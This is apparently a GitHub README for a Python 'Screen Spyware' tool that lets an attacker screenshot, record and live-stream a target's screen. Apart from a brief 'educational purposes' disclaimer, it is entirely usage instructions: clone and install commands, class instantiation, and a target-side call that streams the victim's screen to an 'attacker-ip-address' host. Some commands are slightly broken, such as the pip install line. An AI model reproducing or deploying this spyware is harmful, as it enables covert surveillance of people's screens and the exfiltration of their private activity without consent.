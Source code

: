 # Screen Spyware

## Disclaimer

This script is for educational purposes only, I don't endorse or promote it's illegal usage

## Table of Contents

1. [Overview](#overview)
2. [Features](#features)
3. [Languages](#languages)
4. [Installations](#installations)
5. [Usage](#usage)
6. [Run](#run)

## Overview

This script allows an attacker spy on a target through the screen

## Features

- You can screenshot the screen of the target
- You can screen video the screen of the target
- It streams the target's screen view to the attacker

## Languages

- Python 3.9.7

## Installations

```shell
git clone https://github.com/favoursyre/screen-spyware.git && cd screen-spyware
```

```shell
pip install requirements.txt
```

## Usage

Instantiating the class

```python
attacker, target = "attacker-name", "target-name"
screenSpy = ScreenIntel(attacker, target)
```

To take screen shot of the target's system

```python
image, stat = screenSpy.screenShotter()
```

To take a screen video of the target's system

```python
secs = 30
videoFile = screenSpy.screenVideo(secs)
```

To stream the screen view from the target to the attacker
On target's system

```python
host = "attacker-ip-address"
stream = screenSpy().screenSender(host)
```

On attacker's system

```python
host = "attacker-ip-address"
stream = screenSpy().screenReceiver(host)
```

## Run

```shell
python screen.py
```

To use the streaming function, first run the software on attacker's system before running on the target's system
